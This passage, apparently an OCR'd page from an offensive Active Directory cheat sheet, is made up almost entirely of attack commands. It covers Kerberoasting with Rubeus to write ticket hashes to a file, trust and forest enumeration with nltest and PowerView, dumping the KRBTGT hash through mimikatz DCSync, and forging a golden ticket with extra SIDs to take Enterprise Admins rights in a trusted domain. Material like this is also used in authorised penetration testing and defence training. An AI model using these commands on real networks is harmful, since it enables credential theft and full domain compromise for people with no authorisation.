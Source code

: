 Export all available tickets
```
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```

## Forest enum

Get trusted domains
```powershell
nltest /trusted_domains

([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

Get-DomainTrust -API [-Domain anotherdomaininforest.com] (WIN32)

Get-DomainTrust [-Domain anotherdomaininforest.com] (LDAP)
```

Enumerate users in a trusted domain / forest with PowerView
```powershell
Get-DomainUser -Domain domain.com
```

Enumerate groups in a trusted domain / forest with PowerView
```powershell
Get-DomainGroup -Domain domain.com
```

Get users in Enterprise Admins group of root domain
```powershell
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain domain.com
```

## Forest compromise

Dump KRBTGT
```
lsadump::dcsync /domain:d.x.com /user:d\krbtgt
```

Generate domain SID
```powershell
Get-DomainSID -Domain d.x.com
```

Generate golden ticket with ExtraSides (obtaining Enterprise Admins role in trusted domain) <non-existing user> <origin domain> <origin domain SID> <krbtgt> <destination domain SID with "-519" appended>
```
kerberos::golden /user:h4x /domain:domain.com /sid:S-1-5x /krbtgt:x /sids:S-1-5-21-x-519 /ptt
```

## Beyond forest enum

Get forest trusts
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()

Get-ForestTrust
```
